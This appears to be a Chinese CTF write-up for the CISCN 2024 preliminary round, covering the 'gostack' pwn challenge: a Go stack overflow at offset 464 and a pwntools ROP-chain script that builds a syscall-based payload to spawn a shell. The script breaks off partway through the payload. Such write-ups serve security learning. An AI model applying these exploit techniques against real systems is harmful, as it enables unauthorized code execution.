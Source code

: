 ```yaml
---
title: ciscn2024 初赛 wp
date: 2024-05-20 19:45:19
category: wp
tags:
---
```


> pwn和web题目赛后环境 https://ctf.show/challenges

# pwn
## gostack
### 分析
go语言的栈溢出题，开始用的ida7.5，啥也逆不出来，后面换成ida8.3，都不用怎么逆就出来了
这里放一下ida7.5和ida8.3打开后的截图

![ida7.5](gostack-ida7.5.png)
![ida8.3](gostack-ida8.3.png)
上面第一张是ida7.5的，第二张是ida8.3的

大致看一下代码，运行一下，用cyclic测量溢出点
go语言运行报错后会直接打印错误的返回地址，就不用gdb调试了
![](gostack-cyclic.png)

得出溢出点464
![](gostack-cyclic-l.png)

其实main_main_func2就是后门函数，不过懒得看代码了，直接用系统调用获取shell

### exp
```python
from pwn import *

p = process("./gostack")

context.log_level = 'debug'

# ROPgadget
rdi = 0x4a18a5 #0x00000000004a18a5 : pop rdi ; pop r14 ; pop r13 ; pop r12 ; pop rbp ; pop rbx ; ret
rsi = 0x42138a #0x000000000042138a : pop rsi ; ret
rax = 0x40f984 #0x000000000040f984 : pop rax ; ret
rdx = 0x4944ec #0x00000000004944ec : pop rdx ; ret
ret = 0x40201a #0x000000000040201a : ret
syscall = 0x4616C9 #0x00000000004616C9 : syscall ; ret

addr = 0x5978d8 # 随便找一个能写的地址，不行就换一个

# function
main = 0x04A0AC0

# send
#gdb.attach(p))

# 在addr处写字符串
payload = b'\x00'*464 + p64(rax) + p64(0x0) + p64(rdi) + p64(0) + p64(0)*5 + p64(rsi) + p64(addr) + p64(rdx) + p64(0x30) + p64(syscall)
# 将addr处的字符串作为参数执行sys-execv
```